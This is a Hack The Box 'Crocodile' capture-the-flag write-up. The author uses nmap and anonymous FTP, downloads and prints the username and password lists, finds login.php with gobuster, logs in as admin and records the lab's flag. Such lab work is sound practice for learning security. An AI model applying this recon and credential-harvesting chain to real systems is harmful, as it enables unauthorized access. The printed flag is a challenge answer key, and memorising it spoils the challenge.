


## crocodile
## Very Easy


## Start (04Sept2023)

- Nmap:

  ```bash
  nmap -sV -sC -oN crocodile.nmap crocodile.htb


  Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-04 16:26 EDT
  Nmap scan report for crocodile.htb (10.129.16.20)
  Host is up (0.17s latency).
  Not shown: 998 closed tcp ports (conn-refused)
  PORT   STATE SERVICE VERSION
  21/tcp open  ftp     vsftpd 3.0.3
  | ftp-syst:
  |   STAT:
  | FTP server status:
  |      Connected to ::ffff:10.10.16.2
  |      Logged in as ftp
  |      TYPE: ASCII
  |      No session bandwidth limit
  |      Session timeout in seconds is 300
  |      Control connection is plain text
  |      Data connections will be plain text
  |      At session startup, client count was 2
  |      vsFTPd 3.0.3 - secure, fast, stable
  |_End of status
  | ftp-anon: Anonymous FTP login allowed (FTP code 230)
  | -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
  |_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
  80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  |_http-title: Smash - Bootstrap Business Template
  Service Info: OS: Unix

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 37.20 seconds


  ```

- Okay looks like an open ftp server and an apache web server. I can image we will download a password file from ftp then use it to login via web app

- Getting into FTP and downloading files:

  ```bash
  ftp anonymous@crocodile.htb


  Connected to crocodile.htb.
  220 (vsFTPd 3.0.3)
  230 Login successful.
  Remote system type is UNIX.
  Using binary mode to transfer files.
  ftp> ls
  229 Entering Extended Passive Mode (|||48518|)
  150 Here comes the directory listing.
  -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
  -rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
  226 Directory send OK.
  ftp> mget *
  mget allowed.userlist [anpqy?]? y
  229 Entering Extended Passive Mode (|||48945|)
  150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
  100% |****************************************************************************************************************************************************************************************|    33        0.36 KiB/s    00:00 ETA
  226 Transfer complete.
  33 bytes received in 00:00 (0.07 KiB/s)
  mget allowed.userlist.passwd [anpqy?]? y
  229 Entering Extended Passive Mode (|||48675|)
  150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
  100% |****************************************************************************************************************************************************************************************|    62        0.68 KiB/s    00:00 ETA
  226 Transfer complete.
  62 bytes received in 00:00 (0.14 KiB/s)

  ```

- from the files, it looks like I have a user list with passwords, how nice...

```bash

  cat allowed.userlist

  aron
  pwnmeow
  egotisticalsw
  admin

  cat allowed.userlist.passwd

  root
  Supersecretpassword1
  @BaASD&9032123sADS
  rKXM59ESxesUFHAd

```

- Now login to website and get my flag!
- 
- where is the place to login???, no `http://crocodile.htb/admin`, so where is the login?
- Looks like this was prebuilt stuff:
  ```

  Designed by UIdeck and Built-with Ayro UI

  ```
- Maybe I can find a github or something to get file structure of web apps

- Did not find anything with 5 min check
- Trying gobuster
```bash

  gobuster dir -u http://crocodile.htb  -x .php,.txt,.html -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt


  ===============================================================
  Gobuster v3.5
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
  ===============================================================
  [+] Url:                     http://crocodile.htb
  [+] Method:                  GET
  [+] Threads:                 10
  [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
  [+] Negative Status codes:   404
  [+] User Agent:              gobuster/3.5
  [+] Extensions:              php,txt,html
  [+] Timeout:                 10s
  ===============================================================
  2023/09/04 16:44:03 Starting gobuster in directory enumeration mode
  ===============================================================
  /.php                 (Status: 403) [Size: 278]
  /.html                (Status: 403) [Size: 278]
  /index.html           (Status: 200) [Size: 58565]
  /login.php            (Status: 200) [Size: 1577]
  /assets               (Status: 301) [Size: 315] [--> http://crocodile.htb/assets/]

```

- I got a "login.php", so trying the passwords to login... `admin:rKXM59ESxesUFHAd` worked and here is my flag:
- 
- 


## Root.txt: c7110277ac44d78b6a9fff2232434d16